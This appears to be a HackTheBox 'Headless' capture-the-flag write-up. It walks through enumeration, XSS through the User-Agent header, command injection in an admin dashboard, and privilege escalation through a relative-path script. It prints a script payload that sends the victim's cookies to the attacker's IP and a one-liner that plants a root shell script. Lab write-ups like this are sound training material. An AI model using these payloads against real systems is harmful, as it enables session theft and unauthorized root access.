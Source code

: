 # HackTheBox - Headless

## Enumeration

We start with our nmap scan and only have a HTTP server on port 5000 and SSH on port 22.

```
# Nmap 7.94SVN scan initiated Tue Mar 26 12:42:31 2024 as: nmap -sCV -oN nmap/output 10.10.11.8
Nmap scan report for 10.10.11.8
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Tue, 26 Mar 2024 16:42:39 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.94SVN%I=7%D=3/26%Time=6602FAFE%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,BE1,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\
SF:x20Python/3\.11\.2\r\nDate:\x20Tue,\x2026\x20Mar\x202024\x2016:42:39\x2
SF:0GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
SF:\x202799\r\nSet-Cookie:\x20is_admin=InVzZXIi\.uAlmXlTvm8vyihjNaPDWnvB_Z
SF:fs;\x20Path=/\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\
SF:x20lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\
SF:x20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-wid
SF:th,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Under\x20Construct
SF:ion</title>\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\x20b
SF:ody\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\
SF:x20'Arial',\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20background-color:\x20#f7f7f7;\n\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20padding:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20di
SF:splay:\x20flex;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20justif
SF:y-content:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:align-items:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20height:\x20100vh;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20\.container\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20background-color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20border-radius:\x2010px;\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20box-shadow:\x200px\x200px\x2020px\x20rgba\(0,\x20
SF:0,\x200,\x200\.2\);\n\x20\x20\x20\x20\x20")%r(RTSPRequest,16C,"<!DOCTYP
SF:E\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x
SF:20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20resp
SF:onse</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20vers
SF:ion\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\
SF:x20code\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20or\x
SF:20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 26 12:44:09 2024 -- 1 IP address (1 host up) scanned in 98.19 seconds

```

We navigate the webpage and see nothing particularly of interest, the webpage just indicates that it'll be released in about a month so click on the button below which takes us to `/support`

<figure><img src=".gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>



The support page gives us a form which we try XSS but the site seems to have some kind of sanitisation, as it blocks our requests.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This indicates we might be looking in the wrong place but it does reveal something interesting, the `is_admin` cookie. It looks to be a JWT token so we pass it to https://jwt.io but it isn't, although does show us that the first portion indicates "user"

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

From here we decide to get creative, although there's no XSS in the form itself maybe we can try an gain XSS from the headers. We try various headers and find that the "User-Agent" header gives us XSS!

<figure><img src=".gitbook/assets/p0l1fadW3n.png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/dJpadp6U8w.png" alt=""><figcaption></figcaption></figure>

## User

Let's now try and get an administrative cookie. We're going to use the following payload to try and do so:

```
<script>var i=new Image(); i.src="http://$VPN_IP:8000/?cookie="+btoa(document.cookie); </script>
```

This payload will silently make a HTTP request to our VPN IP and give us the users cookie encoded in Base64, indicated by `btoa`. After crafting our payload, we start our listener and send the request. We have to wait a moment but we then get a hit on our web server!

<figure><img src=".gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We decode the payload and then look at where we can use it, finding the `/dashboard` directory.

<figure><img src=".gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We use the "Inspect Element" feature on our browser and edit our cookie so that instead of seeing an Unauthorized error, we have access to the page.

<figure><img src=".gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Refreshing the page after editing our cookie, we find we have access to an "Administrator Dashboard" that allows us to generate website health reports based on the day. We catch this request in Burp and try to perform command injection and get a POC!

<figure><img src=".gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

From this point we could either enumerate the box to see if we have tools such as Netcat available or download our own bash shell and run it, both are viable options but we'll go for the former for ease.&#x20;

<figure><img src=".gitbook/assets/WzLH2Tv47u.png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/Meb2HOxqwH.png" alt=""><figcaption></figcaption></figure>

From here we stabilise our shell and get our `user.txt`

<figure><img src=".gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Root

We check our sudo privileges which reveals we can run `/usr/bin/syscheck` as sudo, so check the strings for it which just reveals the script!

<figure><img src=".gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So the binary calls "initdb.sh" from our local directory, but there's no checks for where initdb.sh is, so if we create our own malicious shell file, we can just replace its actual purpose. We'll create a simple script that spawns us a shell as root:

```
echo -e '#!/bin/bash\nbash -p' > initdb.sh
```

We'll then make it executable with `chmod +x initdb.sh` and run the binary.

<figure><img src=".gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This gives us root, and that's the box!
